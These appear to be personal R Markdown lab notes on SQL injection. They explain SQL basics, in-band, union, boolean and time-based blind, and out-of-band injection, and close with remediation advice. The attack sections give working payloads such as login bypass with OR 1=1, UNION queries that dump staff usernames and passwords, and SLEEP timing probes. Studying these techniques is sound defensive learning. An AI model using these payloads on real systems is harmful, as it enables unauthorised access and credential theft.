

```{r load_packages, message=FALSE, warning=FALSE, include=FALSE}
library(fontawesome)
```

## SQL Injection

### SQL Basics



A relational database stores information in tables, and often, the tables share information between them; they use columns to specify and define the data being stored and rows actually to store the data. The tables will often contain a column that has a unique ID (primary key), which will then be used in other tables to reference it and cause a relationship between the tables, hence the name relational database.


Non-relational databases, sometimes called NoSQL, on the other hand, are any sort of database that doesn't use tables, columns and rows to store the data. A specific database layout doesn't need to be constructed so each row of data can contain different information, giving more flexibility over a relational database.  Some popular databases of this type are MongoDB, Cassandra and ElasticSearch.

SQL (Structured Query Language) is a feature-rich language used for querying databases. These SQL queries are better referred to as statements.

* SELECT: The first query type we'll learn is the SELECT query used to retrieve data from the database.

```{sql eval=F}
select * from users;
```

The first word `SELECT`, tells the database we want to retrieve some data; the `*` tells the database we want to receive back all columns from the table. `from users` tells the database we want to retrieve the data from the table named users. Finally, the semicolon at the end tells the database that this is the end of the query.

The next query is similar to the above, but this time, instead of using the `*` to return all columns in the database table, we are just requesting the username and password field.
```{sql eval=F}
select username,password from users;
```

The following query, like the first, returns all the columns by using the * selector, and then the "LIMIT 1" clause forces the database to return only one row of data. Changing the query to "LIMIT 1,1" forces the query to skip the first result, and then "LIMIT 2,1" skips the first two results, and so on. You need to remember the first number tells the database how many results you wish to skip, and the second number tells the database how many rows to return.
```{sql eval=F}
select * from users LIMIT 1;
```

Lastly, we're going to utilise the where clause; this is how we can finely pick out the exact data we require by returning data that matches our specific clauses:
```{sql eval=F}
select * from users where username='admin';
select * from users where username != 'admin';
select * from users where username='admin' or username='jon';
select * from users where username='admin' and password='p4ssword';
select * from users where username like 'a%';
select * from users where username like '%mi%';
```

* UNION: The UNION statement combines the results of two or more SELECT statements to retrieve data from either single or multiple tables; the rules to this query are that the UNION statement must retrieve the same number of columns in each SELECT statement, the columns have to be of a similar data type, and the column order has to be the same.

```{sql eval=F}
SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;
```

* INSERT: The INSERT statement tells the database we wish to insert a new row of data into the table. "into users" tells the database which table we wish to insert the data into, "(username,password)" provides the columns we are providing data for and then "values ('bob','password');" provides the data for the previously specified columns.
```{sql eval=F}
insert into users (username,password) values ('bob','password123');
```

* UPDATE: The UPDATE statement tells the database we wish to update one or more rows of data within a table.
```{sql eval=F}
update users SET username='root',password='pass123' where username='admin';
```

* DELETE: The DELETE statement tells the database we wish to delete one or more rows of data. Apart from missing the columns you wish to return, the format of this query is very similar to the SELECT. You can specify precisely which data to delete using the where clause and the number of rows to be deleted using the LIMIT clause.
```{sql eval=F}
delete from users where username='martin';
```
```{sql eval=F}
delete from users;
```
Because no WHERE clause was being used in the query, all the data was deleted from the table.

### Injection

* What is SQL Injection?

The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

* What does it look like?

Take the following scenario where you've come across an online blog, and each blog entry has a unique ID number. The blog entries may be either set to public or private, depending on whether they're ready for public release. The URL for each blog entry may look something like this:
```
https://website.thm/blog?id=1
```

From the URL above, you can see that the blog entry selected comes from the id parameter in the query string. The web application needs to retrieve the article from the database and may use an SQL statement that looks something like the following:
```{sql eval=F}
SELECT * from blog where id=1 and private=0 LIMIT 1;
```

Let's pretend article ID 2 is still locked as private, so it cannot be viewed on the website. We could now instead call the URL:
```
https://website.thm/blog?id=2;--
```

Which would then, in turn, produce the SQL statement:
```{sql eval=F}
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

Which will return the article with an ID of 2 whether it is set to public or not.

This was just one example of an SQL Injection vulnerability of a type called In-Band SQL Injection; there are three types in total: In-Band, Blind and Out-of-Band.

### In-Band SQLi

* In-Band SQL injection: It is a type of SQL injection where the attacker receives the result as a direct response using the same communication channel. For example, if the attacker performs the attack manually using a web browser, the result of the attack will be displayed in the same web browser.

* Error-Based SQL Injection: This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database.

* Union-Based SQL Injection: This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

We'll get the database name that we have access to:
```
https://website.thm/article?id=0 union select 1,2,database()
```
```{sql eval=F}
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
Firstly, the method `group_concat()` gets the specified column (in our case, `table_name`) from multiple returned rows and puts it into one string separated by commas. The next thing is the `information_schema` database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the `sqli_one` database, which is `article` and `staff_users`.

As the first level aims to discover Martin's password, the `staff_users` table is what interests us. We can utilise the `information_schema` database again to find the structure of this table using the below query.
```{sql eval=F}
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
This is similar to the previous SQL query. However, the information we want to retrieve has changed from `table_name` to `column_name`, the table we are querying in the `information_schema` database has changed from tables to columns, and we're searching for any rows where the `table_name` column has a value of `staff_users`.

The query results provide three columns for the `staff_users` table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.
```{sql eval=F}
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
Again, we use the `group_concat` method to return all of the rows into one string and make it easier to read. We've also added `,':',` to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML `<br>` tag that forces each result to be on a separate line to make for easier reading.

### Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successfully enumerate a whole database.

* Authentication Bypass: One of the most straightforward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login.

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table. In basic terms, the web application is asking the database, "Do you have a user with the username bob and the password bob123?" the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not.

Taking the above information into account, it's unnecessary to enumerate a valid username/password pair. We just need to create a database query that replies with a yes/true.


Level Two of the SQL Injection examples shows this exact example. We can see in the box labelled "SQL Query" that the query to the database is the following:
```{sql eval=F}
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

To make this into a query that always returns as true, we can enter the following into the password field:
```{sql eval=F}
' OR 1=1;--
```

Which turns the SQL query into the following:
```{sql eval=F}
select * from users where username='' and password='' OR 1=1;
```

#### Boolean Based

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.
```
https://website.thm/checkuser?username=admin
```

The browser body contains `{"taken":true}`.

The only input we have control over is the username in the query string, and we'll have to use this to perform our SQL injection. Keeping the username as `admin123`, we can start appending to this to try and make the database confirm true things, changing the state of the taken field from false to true.

Like in previous levels, our first task is to establish the number of columns in the users' table, which we can achieve by using the UNION statement. Change the username value to the following:
```{sql eval=F}
admin123' UNION SELECT 1;--
```

As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have a taken value of true. You can confirm that the answer is three columns by setting the username to the below value:
```{sql eval=F}
admin123' UNION SELECT 1,2,3;--
```

Now that our number of columns has been established, we can work on the enumeration of the database. Our first task is to discover the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.
```{sql eval=F}
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

We get a true response because, in the like operator, we just have the value of %, which will match anything as it's the wildcard value. If we change the wildcard operator to a%, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a. We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter s.
```{sql eval=F}
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```

Now you move on to the next character of the database name until you find another true response, for example, 'sa%', 'sb%', 'sc%', etc. Keep on with this process until you discover all the characters of the database name, which is `sqli_three`.

We've established the database name, which we can now use to enumerate table names using a similar method by utilising the `information_schema` database.
```{sql eval=F}
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

This query looks for results in the `information_schema` database in the tables table where the database name matches `sqli_three`, and the table name begins with the letter a. As the above query results in a false response, we can confirm that there are no tables in the `sqli_three` database that begin with the letter a. Like previously, you'll need to cycle through letters, numbers and characters until you find a positive match.
```{sql eval=F}
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Once you've found the column named `id`, you'll append that to your original payload (as seen below).
```{sql eval=F}
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:
```{sql eval=F}
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:
```{sql eval=F}
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.

#### Time-Based SQLi

A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as `SLEEP(x)` alongside the UNION statement. The `SLEEP()` method will only ever get executed upon a successful UNION SELECT statement.

When trying to establish the number of columns in a table, you would use the following query:
```
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
```
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.

You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the UNION SELECT statement.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

After several payloads, we got `username='admin'` and `password=4961`.

#### Out-of-Band SQLi

Out-of-band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.

1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.

2) The Website makes an SQL query to the database, which also passes the hacker's payload.

3) The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

#### Remeadiation

As impactful as SQL Injection vulnerabilities are, developers do have a way to protect their web applications from them by following the advice below:


* Prepared Statements (With Parameterized Queries): In a prepared query, the first thing a developer writes is the SQL query, and then any user inputs are added as parameters afterwards. Writing prepared statements ensures the SQL code structure doesn't change and the database can distinguish between the query and the data. As a benefit, it also makes your code look much cleaner and easier to read.


* Input Validation: Input validation can go a long way to protecting what gets put into an SQL query. Employing an allow list can restrict input to only certain strings, or a string replacement method in the programming language can filter the characters you wish to allow or disallow.


* Escaping User Input: Allowing user input containing characters such as ' " $ \ can cause SQL Queries to break or, even worse, as we've learnt, open them up for injection attacks. Escaping user input is the method of prepending a backslash (\) to these characters, which then causes them to be parsed just as a regular string and not a special character.


## Burp Suite

<++>
